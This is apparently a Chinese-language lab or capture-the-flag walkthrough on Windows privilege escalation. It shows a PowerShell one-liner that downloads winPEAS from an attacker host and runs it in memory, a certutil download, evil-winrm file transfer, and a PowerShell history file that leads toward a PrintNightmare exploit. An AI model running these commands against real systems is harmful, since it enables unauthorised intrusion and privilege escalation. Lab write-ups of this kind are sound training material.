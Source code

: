 #### 提权

##### winpeas枚举

设置运行脚本执行，无文件执行[winpeas](https://github.com/peass-ng/PEASS-ng/tree/master/winPEAS/winPEASexe)
```powershell
set-executionpolicy unrestricted -scope currentuser

$wp=[System.Reflection.Assembly]::Load([byte[]](Invoke-WebRequest "http://10.10.14.14/winPEASx64.exe" -UseBasicParsing | Select-Object -ExpandProperty Content)); [winPEAS.Program]::Main("")
```

-UseBasicParsing: 如果没有装IE浏览器,使用基本解析方式可以保证下载执行,或者浏览器初始化过程没有操作过,使用这个参数规避掉这个问题

这里没成功执行提权程序，那么下载文件到本地再执行

可以通过certutil.exe或者evil-winrm来下载文件

```powershell
certutil.exe -urlcache -split -f http://10.10.14.14/winPEASx64.exe
# 通过evil-winrm来传递文件
upload winPEASx64.exe
```

执行自动枚举脚本并将结果返回到kali

```powershell
.\winPEASx64.exe log
```

指定log参数，默认将结果输出文件名为out.txt, 通过evil-winrm将文件下载回kali分析

```powershell
download out.txt
cat out.txt | less -R 
batcat out.txt
```

```powershell
PS history file: C:\Users\tony\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt

Add-Printer -PrinterName "RICOH_PCL6" -DriverName 'RICOH PCL6 UniversalDriver V4.23' -PortName 'lpt1:'
```

一条添加打印机的命令，接口是并行端口，名为`lpt1`,在后续列出的进程当中能看到spoolsv这个打印机的进程

##### printnightmare提权

spoolsv是windows用来管理打印机任务的进程，是打印后台处理程序的核心进程，duckduckgo搜索一下`windows spoolsv exploit`, 能看到一个高频出现的漏洞`printnightmare`, 可以使用nxc查看一下这台靶机是否可以利用`printnightmare`

关于`printnightmare`的更多细节可以查看这篇[博客](https://0xdf.gitlab.io/2021/07/08/playing-with-printnightmare.html)

###### nxc模块检测printnightmare可用性

可以使用nxc的模块检测一下是不是可以进行printnightmare提权
